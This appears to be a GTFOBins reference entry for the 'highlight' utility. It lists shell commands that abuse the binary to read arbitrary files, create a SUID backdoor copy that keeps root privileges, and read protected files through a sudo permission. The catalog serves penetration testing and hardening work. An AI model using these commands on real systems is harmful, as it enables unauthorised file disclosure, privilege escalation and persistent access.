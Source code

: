 # GTFOBin: highlight

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
highlight --no-doc --failsafe "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which highlight) .

LFILE=file_to_read
./highlight --no-doc --failsafe "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo highlight --no-doc --failsafe "$LFILE"
```